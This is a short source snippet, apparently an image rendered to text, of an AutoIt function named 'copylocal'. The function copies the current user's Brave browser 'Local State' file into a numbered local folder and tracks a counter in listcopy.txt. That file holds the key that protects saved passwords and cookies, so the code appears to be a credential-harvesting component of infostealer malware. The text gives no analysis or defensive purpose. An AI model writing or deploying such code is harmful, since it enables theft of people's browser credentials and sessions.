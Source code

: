 # copylocal0
Func copylocal()
	$u = @UserName
	If _filecountlines("listcopy.txt") = 0 Then
		FileWriteLine("listcopy.txt", 1)
		$file = 1
	Else
		$file = FileReadLine("listcopy.txt", -1) + 1
		FileWriteLine("listcopy.txt", $file)
	EndIf
	$zzz = "C:\Users\" & $u & "\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State"
	FileCopy($zzz, "Local\" & $file, 9)
EndFunc
